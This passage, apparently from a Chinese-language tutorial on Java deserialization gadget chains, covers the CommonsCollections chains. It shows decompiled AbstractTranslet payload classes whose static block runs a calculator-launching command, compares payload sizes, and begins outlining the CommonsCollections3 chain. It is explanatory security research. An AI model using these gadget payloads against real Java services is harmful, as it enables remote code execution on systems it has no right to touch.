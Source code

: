     public class 20566442311196 extends AbstractTranslet implements Serializable {
        private static final long serialVersionUID = -5971610431559700674L;
    
        public _0566442311196/* $FF was: 20566442311196*/() {
        }
    
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
        }
    
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
        }
    
        static {
            Object var1 = null;
            Runtime.getRuntime().exec("open /Applications/Calculator.app");
        }
    }
    ```
    
    
    修改后生成的class如下，对应的payload有1,446 字节，如果将恶意代码插入到无参构造函数中只有1,356 字节会比静态代码块要小一些
    
    
    ```
    import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

    public class 20977646936963 extends AbstractTranslet {
        static {
            Object var1 = null;
            Runtime.getRuntime().exec("open /Applications/Calculator.app");
        }
    
        public _0977646936963/* $FF was: 20977646936963*/() {
        }
    }
    ```
  
  
### CommonsCollections3

在知道CommonsCollections1和CommonsCollections2之后，CommonsCollections3就很简单了触发transform的方法仍然是使用AnnotationInvocationHandler+LazyMap，TemplatesImpl存储要执行的命令，但是transformerChain和之前不同

![-w786](media/15662017023838/15670897728188.jpg)

使用InstantiateTransformer的transform方法触发命令执行
